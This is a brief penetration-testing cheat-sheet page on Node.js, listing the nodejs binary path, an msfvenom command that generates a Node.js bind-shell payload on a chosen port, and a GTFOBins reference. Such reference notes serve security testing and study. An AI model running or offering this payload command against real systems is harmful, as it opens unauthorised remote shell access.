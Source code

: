 # Manual

## 01 - Common Files

```
/usr/bin/nodejs
```

## 02 - Generate Payloads

```
$ msfvenom -p cmd/unix/bind_nodejs lport=<PORT>
```

---
## References

### GTFOBins

- [GTFOBins: NodeJS]